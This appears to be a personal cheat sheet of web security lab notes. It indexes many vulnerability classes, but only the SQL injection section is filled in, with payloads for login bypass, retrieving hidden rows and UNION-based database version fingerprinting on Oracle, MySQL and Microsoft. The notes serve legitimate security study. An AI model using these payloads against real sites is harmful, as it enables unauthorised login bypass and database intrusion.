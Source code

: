Server-side summary
---
Ayooo, lucky me!

Author: Punthat Siriwan

---
**TOPICS**
- [SQLi](#sqli)
- [Authentication](#authentication)
- [Path Traversal](#path-traversal)
- [OS Command Injection](#os-command-injection)
- [Information Disclosure](#information-disclosure)
- [Access Control Vulnerabilities](#access-control-vulnerabilities)
- [File Upload Vuln](#file-upload-vuln)
- [Business Logic Vuln](#business-logic-vuln)
- [Race condition](#race-condition)
- [SSRF](#ssrf)
- [XXE](#xxe)
- [NoSQL injection](#nosql-injection)
- [API Testing](#api-testing)

----
----

# SQLi
try url encoding or double url encoding if the regular attack doesn't work

---

**SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

`'OR 1=1 --`

---

**SQL injection vulnerability allowing login bypass**

`administrator'--`

---

**SQL injection attack, querying the database type and version on Oracle**

```sql
' ORDER BY 2 -- 
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

---

**SQL injection attack, querying the database type and version on MySQL and Microsoft**

```sql
UNION SELECT NULL,NULL -- #
' ORDER BY 2 -- #
UNION SELECT @@VERSION, NULL -- #
```

---